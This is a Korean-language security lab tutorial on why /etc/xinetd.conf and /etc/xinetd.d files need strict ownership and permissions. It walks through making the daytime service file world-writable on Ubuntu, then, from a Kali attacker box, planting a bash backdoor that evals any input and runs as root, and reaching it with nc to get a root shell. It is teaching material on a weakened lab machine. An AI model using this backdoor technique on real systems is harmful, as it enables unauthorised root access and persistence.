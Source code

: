 ## /etc/(x)inetd.conf 파일 소유자 및 권한 설정

리눅스의 슈퍼 데몬인 `xinetd`의 설정 파일을 `root` 외의 사용자가 수정할 수 있으면 어떤 문제가 발생할 수 있는지 알아봅시다.

### [우분투 : 취약한 리눅스 서버 관리자] 취약한 시스템을 만듭니다.

A. 우분투 데스크탑 22.04 LTS에는 슈퍼 데몬인 `xinetd`가 설치되어 있지 않습니다. 그러므로 먼저 `xinetd`를 설치합니다.

```
cju@wooam:~$ sudo apt install xinetd
```

B. `xinetd.conf` 파일의 소유자와 접근 권한을 살펴봅시다. 소유자는 `root`이고 접근 권한은 `-rw-r--r--`(644)입니다.

```
cju@wooam:~$ ls -l /etc/xinet.conf
```

C. `xinetd.conf` 파일의 내용도 살펴봅시다. `/etc/xinetd.d` 디렉터리를 포함(`includedir`)하는 것을 확인할 수 있습니다.

```
cju@wooam:~$ cat /etc/xinetd.conf
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d
```

D. `/etc/xinetd.d` 디렉토리를 살펴봅시다. `xinetd`를 통해 서비스될 수 있는 다양한 서비스 설정 파일이 있습니다.

```
cju@wooam:~$ ls /etc/xinetd.d/
chargen  chargen-udp  daytime  daytime-udp  discard  discard-udp  echo  echo-udp  servers  services  time  time-udp
```

E. `/etc/xinetd.d` 디렉터리 안에 있는 설정 파일 중 하나의 접근 권한을 `-rw-rw-rw-`(666)로 변경합니다. 여기서는 `daytime`의 접근 권한을 변경합니다.

```
cju@wooam:~$ sudo chmod 666 /etc/xinetd.d/daytime
```

## [칼리 : 공격자] `xinetd` 자체의 `daytime` 서비스 대신 백도어를 올립니다!

> 공격자가 취약한 리눅스 서버의 일반 사용자 계정을 탈취했다고 가정합니다.

A. 먼저 일반 사용자 계정을 사용하여 우분투 데스크탑에 원격 접속합니다.

```
┌──(kali㉿kali)-[~]
└─$ ssh aaa@192.168.xxx.xxx 13
```

B. `xinetd` 설정 파일의 접근 권한을 살펴봅시다. `/etc/xinetd.d/daytime` 파일을 누구나 수정할 수 있음을 발견합니다.

```
aaa@wooam:~$ ls -l /etc/xinetd.conf /etc/xinetd.d
```

C. 아래와 같이 간단한 백도어를 만듭니다.

```
aaa@wooam:~$ cat hola
#!/bin/bash
echo "Welcome to the victim server!"
read yourcommand
eval $yourcommand
echo "Thanks you for using this backdoor!"
```

D. 만든 백도어 파일에 실행 권한을 부여합니다.

```
aaa@wooam:~$ chmod 755 hola
```

E. `/etc/xinetd.d/daytime` 파일을 아래와 같이 수정합니다. `disable = no`로 수정하고 `type = INTERNAL` 라인은 삭제합니다. 그리고 `server = /home/aaa/hola`를 추가합니다. 이렇게 설정을 변경하면 `xinetd`는 자체의 `daytime` 서비스를 제공하지 않고 `/home/aaa/hola`의 실행을 통해 서비스를 제공합니다.

```
aaa@wooam:~$ cat /etc/xinetd.d/daytime
# default: off
# description: An internal xinetd service which gets the current system time
# then prints it out in a format like this: "Wed Nov 13 22:30:27 EST 2002".
# This is the tcp version.
service daytime
{
	disable		= no
	id		= daytime-stream
	socket_type	= stream
	protocol	= tcp
	user		= root
	wait		= no
	server		= /home/aaa/hola
}

# This is the udp version.
service daytime
{
	disable		= yes
	type		= INTERNAL
	id		= daytime-dgram
	socket_type	= dgram
	protocol	= udp
	user		= root
	wait		= yes
}

```

F. 원격 접속을 종료합니다.

```
aaa@wooam:~$ exit
```

### [우분투 : 취약한 리눅스 서버 관리자] `xinetd`를 재시작합니다...

A. `xinetd` 서비스를 재시작합니다.

```
cju@wooam:~$ sudo systemctl restart xinetd
```

### [칼리 : 공격자] `daytime` 백도어를 통해 자유롭게 시스템을 사용합니다!!!

A. `nc` 명령어를 이용하여 백도어에 접근합니다.

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
Welcome to the victim server!
whoami
root
Thank you for using this backdoor!
```

B. 셸도 실행 가능합니다!

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
Welcome to the victim server!
sh
pwd
/
exit
Thank you for using this backdoor!
```